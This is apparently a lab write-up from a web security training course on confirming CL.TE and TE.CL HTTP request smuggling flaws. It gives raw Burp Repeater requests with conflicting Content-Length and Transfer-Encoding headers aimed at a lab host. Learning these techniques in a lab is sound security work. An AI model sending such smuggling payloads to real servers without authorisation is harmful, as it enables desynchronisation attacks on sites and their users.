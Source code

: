 # Some cases of HTTP request smuggling

## 1. HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

The second request should receive an HTTP 404 response.

#### Note

Although the lab supports HTTP/2, the intended solution requires techniques that are only possible in HTTP/1. You can manually switch protocols in Burp Repeater from the Request attributes section of the Inspector panel.

## 2. HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked (setting icon near `Send`)

Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

The second request should receive an HTTP 404 response.

#### Note

Although the lab supports HTTP/2, the intended solution requires techniques that are only possible in HTTP/1. You can manually switch protocols in Burp Repeater from the Request attributes section of the Inspector panel.
